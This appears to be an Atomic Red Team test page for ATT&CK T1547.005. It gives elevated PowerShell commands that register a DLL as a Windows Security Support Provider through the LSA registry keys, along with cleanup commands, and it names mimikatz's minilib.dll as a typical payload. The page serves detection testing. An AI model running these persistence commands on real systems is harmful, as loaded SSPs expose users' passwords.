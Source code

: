 # T1547.005 - Boot or Logon Autostart Execution: Security Support Provider
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1547/005)
<blockquote>Adversaries may abuse security support providers (SSPs) to execute DLLs when the system boots. Windows SSP DLLs are loaded into the Local Security Authority (LSA) process at system start. Once loaded into the LSA, SSP DLLs have access to encrypted and plaintext passwords that are stored in Windows, such as any logged-on user's Domain password or smart card PINs.

The SSP configuration is stored in two Registry keys: <code>HKLM\SYSTEM\CurrentControlSet\Control\Lsa\Security Packages</code> and <code>HKLM\SYSTEM\CurrentControlSet\Control\Lsa\OSConfig\Security Packages</code>. An adversary may modify these Registry keys to add new SSPs, which will be loaded the next time the system boots, or when the AddSecurityPackage Windows API function is called.(Citation: Graeber 2014)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Modify HKLM:\System\CurrentControlSet\Control\Lsa Security Support Provider configuration in registry](#atomic-test-1---modify-hklmsystemcurrentcontrolsetcontrollsa-security-support-provider-configuration-in-registry)

- [Atomic Test #2 - Modify HKLM:\System\CurrentControlSet\Control\Lsa\OSConfig Security Support Provider configuration in registry](#atomic-test-2---modify-hklmsystemcurrentcontrolsetcontrollsaosconfig-security-support-provider-configuration-in-registry)


<br/>

## Atomic Test #1 - Modify HKLM:\System\CurrentControlSet\Control\Lsa Security Support Provider configuration in registry
Add a value to a Windows registry Security Support Provider pointing to a payload .dll which will normally need to be copied in the system32 folder.
A common DLL used with this techquite is the minilib.dll from mimikatz, see https://pentestlab.blog/2019/10/21/persistence-security-support-provider/

**Supported Platforms:** Windows


**auto_generated_guid:** afdfd7e3-8a0b-409f-85f7-886fdf249c9e






#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
$oldvalue = $(Get-ItemProperty HKLM:\System\CurrentControlSet\Control\Lsa -Name 'Security Packages' | Select-Object -ExpandProperty 'Security Packages');
Set-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Lsa" -Name 'Security Packages old' -Value "$oldvalue";
$newvalue = "AtomicTest.dll";
Set-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa -Name 'Security Packages' -Value $newvalue
```

#### Cleanup Commands:
```powershell
$oldvalue = $(Get-ItemPropertyValue -Path  "HKLM:\System\CurrentControlSet\Control\Lsa" -Name 'Security Packages old' | Select-Object -ExpandProperty 'Security Packages old');
Set-ItemProperty -Path HKLM:\System\CurrentControlSet\Control\Lsa -Name 'Security Packages' -Value "$oldvalue";
Remove-ItemProperty -Path  "HKLM:\System\CurrentControlSet\Control\Lsa" -Name 'Security Packages old';
```





<br/>
<br/>

## Atomic Test #2 - Modify HKLM:\System\CurrentControlSet\Control\Lsa\OSConfig Security Support Provider configuration in registry
Add a value to a Windows registry SSP key, simulating an adversarial modification of those keys.

**Supported Platforms:** Windows


**auto_generated_guid:** de3f8e74-3351-4fdb-a442-265dbf231738






#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
$oldvalue = $(Get-ItemProperty HKLM:\System\CurrentControlSet\Control\Lsa\OSConfig -Name 'Security Packages' | Select-Object -ExpandProperty 'Security Packages');
Set-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Lsa\OSConfig" -Name 'Security Packages old' -Value "$oldvalue";
$newvalue = "AtomicTest.dll";
Set-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\OSConfig -Name 'Security Packages' -Value $newvalue
```

#### Cleanup Commands:
```powershell
$oldvalue = $(Get-ItemPropertyValue -Path  "HKLM:\System\CurrentControlSet\Control\Lsa\OSConfig" -Name 'Security Packages old' | Select-Object -ExpandProperty 'Security Packages old');
Set-ItemProperty -Path HKLM:\System\CurrentControlSet\Control\Lsa\OSConfig -Name 'Security Packages' -Value "$oldvalue";
Remove-ItemProperty -Path  "HKLM:\System\CurrentControlSet\Control\Lsa\OSConfig" -Name 'Security Packages old';
```





<br/>
